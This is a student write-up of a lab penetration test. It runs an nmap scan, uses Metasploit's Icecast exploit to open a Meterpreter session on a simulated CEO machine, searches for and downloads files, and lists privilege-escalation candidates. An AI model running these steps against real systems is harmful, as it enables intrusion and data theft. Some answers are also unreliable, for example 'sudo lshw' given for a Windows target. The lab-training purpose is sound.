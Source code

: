# Penetration_Test_Engagement
Internal penetration test on GoodCorp's CEO, Hans Gruber. The objective is to exploit any vulnerable software and find company files on the CEO's computer.

#### Background

- The CEO claims to have passwords that are long and complex and therefore unhackable.
- The penetration test objective is to access the CEO's computer, and using a Meterpreter session, to search for two files that contain the strings `recipe` and `seceretfile`.

#### Setup 

- Logged onto DVW10 virtual machine.
- Icecast server started to emulate the CEO's computer. 

#### Scope 

- Limited to CEO's workstation only. Only the CEO's IP address can be exploited.
- No other IP addresses to be scanned
- DOS and brute force attacks are prohibited
- No file deletions permissible
- No config changes permissible

#### Deliverable

- All findings were submitted via a report called 'Report.docx'. [Report.docx](Report.docx)

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: 
      First, I needed to work out what IP address the CEO's computer was using. I knew that the network was using the 192.168.0.? range.
      I used 
      **nmap -sn 192.168.0.0/24**
      
      Having ruled out IP addresses using the 4th octet being 192.168.0.1, 192.168.0.10, 192.168.0.21, 192.168.0.22 and 192.168.0.8, I decided to investigate **192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1702.png)      
      
      Then I used nmap
      **nmap -sV "192.168.0.20"**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1701.png)

2. Start SearchSploit

    - Run the SearchSploit commands to show available Icecast exploits.
  
      > Answer: 
      command to run is:
      **searchsploit icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1703.png)
      
3. Start Metasploit

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **msfconsole**
      
4. Search for the Icecast module and load it for use

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **search icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1705.png)
      
    - Run the command to use the Icecast module:
    
      > Answer: 
      command to run from Metasploit is:
      **use 0 (0 being the first (and in this case only) module available to be run. I used the shortcut so I did’t need to type or 'copy and paste' the full module name).**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1706.png)
      
      Next I ran the command to show what options were available within the module:
      **show options**

      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1707.png)
      
5. Set the 'RHOST' to the target machine

    - Run the command that sets the 'RHOST':
  
      > Answer: 
      command to run is:
      **set RHOSTS 192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1708.png)
      
6. Run the Icecast exploit

    - Run the command that runs the Icecast exploit:
  
      > Answer: 
      command to run is:
      **run (exploit will also work)**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1709.png)
      
    - Run the command that performs a search for the `secretfile.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *secretfile.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1710.png)
      
7. Now that a Meterpreter session is open:

    - Run the command to performs a search for the `recipe.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1711.png)
     
    - Run the command that exfiltrates the `recipe*.txt` file:
    
      > Answer: 
      command to run is:
      **download Drinks.recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1712.png)
      
      **I then used the ‘cat’ command to view the contents of both .txt files. The second txt file’s contents contains bank account details.**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1713.png)      
      
      **I then checked that the file has downloaded to my Kali VM:** (using **ls** command)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1714.png)
      
8. Use Meterpreter's local exploit suggester to find possible exploits:

    - Check for common vulnerabilities:
  
      > Results: 
      I used Meterpreter to check for common vulnerabilities. 
      using the command
      **run post/multi/recon/local_exploit_suggester**
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1715.png)    
      
      **The two exploits of concern are
      **•	ikeext_service**
      **•	ms16-075**

      The ikeext services exploit module exploits a missing DLL loaded by the 'IKE and AuthIP Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts automatically in default installations of Vista-Win8. It requires an insecure bin path to plant the DLL payload.

      The ms16-075 exploit is a security update that resolves a vulnerability in Microsoft Windows that could allow elevation of privilege if an attacker logs on to the system and runs a specially crafted application.
       
#### Bonus
      
A. Run a Meterpreter post script that enumerates all logged on users.

    - **I googled meterpreter enumerate all logged on users**
    
      > Answer:
      **I found the following blog helpful, and I tested various meterpreter commands:**
      https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1716.png)   
      
B. Open a Meterpreter shell and gather system information for the target:     

      > Answer: 
      command to run is:
      **shell**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1717.png)
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1718.png)
      
C. Run the command that displays the target's computer system information:     

      > Answer: 
      command to run is:
      **sudo lshw**   
